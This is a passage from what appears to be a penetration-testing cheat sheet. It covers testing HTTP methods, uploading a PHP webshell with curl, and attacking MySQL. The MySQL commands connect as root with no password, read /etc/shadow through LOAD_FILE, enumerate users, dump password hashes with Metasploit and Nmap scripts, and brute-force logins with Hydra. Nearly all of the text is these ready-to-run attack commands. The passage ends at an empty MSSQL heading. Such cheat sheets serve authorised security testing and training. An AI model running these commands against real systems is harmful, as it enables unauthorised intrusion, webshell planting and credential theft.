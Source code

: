 - Check allowed methods :
```bash
# BurpSuite : (Change Method Request)
OPTIONS /uploads/ ....

# cURL :
curl -X OPTIONS -v http://<IP>/uploads/
```

- Look if you can upload file :
```bash
curl http://<IP>/uploads/ --upload-file webshell.php
```

# SQL

SQL stands for Structured Query Language. 

## MySQL

- Connect to database : 
```bash
mysql -h <IP> -u root
```

- Read arbitrary file : 
```sql
SELECT LOAD_FILE('/etc/shadow') AS Result;
```

- Enumerate users : 
```bash
# With Nmap NSE :
nmap <IP> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

- Dump user's hash : 
```bash
# Metasploit Module : 
use auxiliary/scanner/mysql/mysql_hashdump

# With Nmap NSE :
nmap -p3306 <IP> --script mysql-dump-hashes --script-args="username='root',password=''"
```

- Dictionary Attack :
```bash
# Metasploit Module :
use auxiliary/scanner/mysql/mysql_login

# Hydra :
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://192.64.63.3 -v -V
```

## MSSQL
